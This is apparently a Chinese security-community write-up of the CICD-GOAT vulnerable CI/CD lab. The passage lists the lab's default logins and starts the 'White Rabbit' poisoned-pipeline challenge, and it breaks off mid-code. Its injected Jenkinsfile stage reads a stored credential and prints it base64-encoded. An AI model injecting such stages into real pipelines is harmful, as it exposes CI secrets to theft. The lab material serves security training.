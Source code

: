 

# 从 CICD-GOAT 靶场学习 top-10-cicd-security-risks - 先知社区

从 CICD-GOAT 靶场学习 top-10-cicd-security-risks

- - -

# CICD-GOAT

CICD-GOAT 靶场是一个配置了 CICD 漏洞的靶场，从中可以学习到 TOP10 CICD 安全漏洞的地址。靶场地址是[https://github.com/cider-security-research/cicd-goat](https://github.com/cider-security-research/cicd-goat)  
按照官网的步骤安装可以。

```plain
Jenkins: http://localhost:8080
Username: alice
Password: alice
Gitea: http://localhost:3000
Username: thealice
Password: thealice
GitLab http://localhost:4000
Username: alice
Password: alice1234

如果你想仔细查看管理员是如何配置的环境，可以使用如下凭据登录后台：
CTFd
Username: admin
Password: ciderland5#
Jenkins
Username: admin
Password: ciderland5#
Gitea
Username: red_queen
Password: ciderland5#
Gitlab
Username:root
Password:ciderland5#
```

## White Rabbit

考察的是 PPE 漏洞。访问项目对应的 gitea 仓库，发现存在 Jenkinsfile 文件，git clone 下来注入恶意代码：

```plain
pipeline {
    agent any
    environment {
        PROJECT = "src/urllib3"
    }

    stages {
stage('getflag') {
            steps {
                withCredentials([string(credentialsId: 'flag1', variable: 'flag1')]) {
                        sh '''
                            echo "flag1:".$flag1|base64
                        '''
                }
            }
        }
        stage ('Install_Requirements') {
            steps {
                sh """
```